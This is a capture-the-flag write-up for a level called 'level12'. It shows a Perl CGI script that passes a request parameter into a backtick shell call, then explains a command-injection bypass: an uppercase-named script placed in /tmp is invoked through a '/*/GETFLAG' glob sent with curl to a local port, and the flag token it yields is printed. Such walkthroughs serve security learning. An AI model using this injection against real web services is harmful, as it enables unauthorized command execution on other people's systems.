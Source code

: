 # First step

We have a pl file named `level12.pl` like level04.  

```pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

We can know a server is running on port 4646.  
Same way like level04, but we can't put a simple command as 'x=`getflag`'.  
Because the script have two patterns:
- tr/a-z/A-Z/: lowercase to uppercase  
- s/\s.*//: remove all spaces  
  
# Second step

We can create a script file with uppercase name and put `getflag` inside.

```shell
$> echo 'getflag > /tmp/getflag' > /tmp/GETFLAG && chmod +x /tmp/GETFLAG

# we can use /*/ to match GETFLAG file.
$> curl localhost:4646?x='`/*/GETFLAG`'

# If don't get the true flag, try delete the file in /tmp/
# You may have this message: rm: remove write-protected regular file `/tmp/getflag'?
# relaunch the VM or change the name of /tmp/getflag file.
$> cat /tmp/getflag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr  
```
